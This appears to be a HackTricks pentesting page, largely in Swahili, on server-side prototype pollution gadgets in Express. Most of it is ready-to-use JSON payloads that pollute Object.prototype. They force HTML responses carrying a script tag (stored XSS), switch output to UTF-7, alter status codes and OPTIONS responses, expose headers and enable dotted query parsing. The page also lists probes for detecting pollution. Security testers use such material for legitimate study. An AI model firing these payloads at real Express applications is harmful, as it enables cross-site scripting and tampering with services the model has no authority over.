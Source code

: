 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**Kwa maelezo zaidi** [**angalia utafiti wa asili**](https://portswigger.net/research/server-side-prototype-pollution)

### Badilisha aina ya maudhui ya JSON kuwa HTML

Katika programu ya Express inayotumia **aina ya maudhui ya majibu ya JSON** na kuakisi JSON:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Katika hizi kesi, XSS kawaida haiwezekani na aina ya maudhui ya JSON. Hata hivyo, kwa uchafuzi wa prototype tunaweza **kuchanganya Express kutoa jibu la HTML.** Uthibitisho huu unategemea programu kutumia **`res.send(obj)`** na kutumia parser ya mwili na aina ya maudhui ya application/json.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Kwa **kuchafua** mali za **`body`** na **`_body`**, inawezekana kusababisha **Express kutoa aina ya maudhui ya HTML** na kuonyesha mali ya `_body`, na kusababisha XSS iliyohifadhiwa.

### Onyesha UTF7

Inawezekana kufanya express **ionyeshe maudhui ya UTF-7 kwa**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Safe Scanning Techinques

### JSON spaces

Ifuatayo PP itafanya sifa ndani ya JSON kuwa na nafasi ya ziada ambayo haitavunja utendaji:
```json
{"__proto__":{"json spaces": " "}}
```
Kisha JSON iliyoakisi itakuwa kama ifuatavyo:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Gadget ya PP ifuatayo itafanya seva itume tena kichwa cha HTTP: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Inahitaji **moduli ya CORS kufungwa**

### **Njia ya OPTIONS**

Kwa kutumia mzigo ufuatao, inawezekana **kuficha njia kutoka kwa jibu la OPTIONS**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Hali**

Inawezekana kubadilisha **kodi ya hali iliyorudishwa** kwa kutumia mzigo wa PP ufuatao:
```json
{"__proto__":{"status":510}}
```
### Hitilafu

Unapoweka kwenye prototype kwa kutumia primitive kama string, inazalisha **operesheni isiyo na maana kwani prototype inapaswa kuwa kitu**. Ikiwa unajaribu kuweka kitu cha prototype kwenye `Object.prototype` yenyewe, hii it **tupa hitilafu**. Tunaweza kutumia tabia hizi mbili ili **kubaini ikiwa uchafuzi wa prototype umefanikiwa**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Wakati programu inajumuisha kitu katika jibu lake, kuunda sifa yenye **jina lisilo la kawaida pamoja na `__proto__`** kunaweza kuwa na maana. Haswa, ikiwa **sifa hiyo pekee isiyo ya kawaida inarudishwa** katika jibu, hii inaweza kuashiria udhaifu wa programu:
```json
{"unusualName":"value","__proto__":"test"}
```
Zaidi ya hayo, katika hali ambapo maktaba kama Lodash inatumika, kuweka mali kupitia uchafuzi wa prototype (PP) na moja kwa moja ndani ya kitu kunatoa njia nyingine ya uchunguzi. Ikiwa mali kama hiyo imeachwa kwenye jibu, inamaanisha kwamba Lodash inathibitisha uwepo wa mali hiyo katika kitu cha lengo kabla ya kuungana:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Ruhusu Vidoti

Kuna chaguo katika Express kinachokuruhusu **kuunda vitu kutoka kwa vigezo vya mfuatano wa swali**.\
Unaweza hakika kukitumia katika **mnyororo** wa hitilafu ili kutumia **udhaifu wa uchafuzi wa prototype**.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` inaunda kitu katika Node.**

## Marejeo

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

